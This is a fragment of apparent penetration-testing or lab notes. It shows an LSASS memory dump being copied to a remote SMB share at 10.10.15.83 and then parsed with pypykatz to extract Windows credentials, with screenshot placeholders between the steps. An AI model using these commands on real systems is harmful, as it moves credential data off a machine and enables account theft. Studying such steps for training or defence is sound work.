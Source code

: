 

    * `move lsass.dmp \\10.10.15.83\CompData`

    <figure><img src=".gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>



    * Check in linux terminal -> ls
* `pypykatz lsa minidump /home/zihuatanejo/lsass.DMP`

<figure><img src=".gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>
